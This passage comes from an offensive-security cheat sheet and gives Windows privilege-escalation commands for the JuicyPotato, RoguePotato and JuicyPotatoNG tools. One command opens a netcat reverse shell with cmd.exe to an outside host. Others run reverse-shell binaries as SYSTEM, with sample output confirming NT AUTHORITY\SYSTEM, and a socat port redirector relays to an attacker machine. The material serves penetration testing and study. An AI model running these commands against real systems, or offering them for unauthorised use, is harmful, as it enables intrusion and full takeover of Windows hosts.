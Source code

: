 3. Execute JuicyPotato to run a privileged command.

   ```powershell
   JuicyPotato.exe -l 9999 -p c:\interpub\wwwroot\upload\nc.exe -a "IP PORT -e cmd.exe" -t t -c {B91D5831-B1BD-4608-8198-D72E155020F7}
   JuicyPotato.exe -l 1340 -p C:\users\User\rev.bat -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
   JuicyPotato.exe -l 1337 -p c:\Windows\System32\cmd.exe -t * -c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4} -a "/c c:\users\User\reverse_shell.exe"
       Testing {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4} 1337
       ......
       [+] authresult 0
       {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4};NT AUTHORITY\SYSTEM
       [+] CreateProcessWithTokenW OK
   ```

---

### Rogue Potato (Fake OXID Resolver)

- Binary available at https://github.com/antonioCoco/RoguePotato

```powershell
# Network redirector / port forwarder to run on your remote machine, must use port 135 as src port
socat tcp-listen:135,reuseaddr,fork tcp:10.0.0.3:9999

# RoguePotato without running RogueOxidResolver locally. You should run the RogueOxidResolver.exe on your remote machine.
# Use this if you have fw restrictions.
RoguePotato.exe -r 10.0.0.3 -e "C:\windows\system32\cmd.exe"

# RoguePotato all in one with RogueOxidResolver running locally on port 9999
RoguePotato.exe -r 10.0.0.3 -e "C:\windows\system32\cmd.exe" -l 9999

#RoguePotato all in one with RogueOxidResolver running locally on port 9999 and specific clsid and custom pipename
RoguePotato.exe -r 10.0.0.3 -e "C:\windows\system32\cmd.exe" -l 9999 -c "{6d8ff8e1-730d-11d4-bf42-00b0d0118b56}" -p splintercode
```

---

### JuicyPotatoNG

- [antonioCoco/JuicyPotatoNG](https://github.com/antonioCoco/JuicyPotatoNG)

```powershell
JuicyPotatoNG.exe -t * -p "C:\Windows\System32\cmd.exe" -a "/c whoami" > C:\juicypotatong.txt
```

---

### Restore A Service Account's Privileges

> This tool should be executed as LOCAL SERVICE or NETWORK SERVICE only.
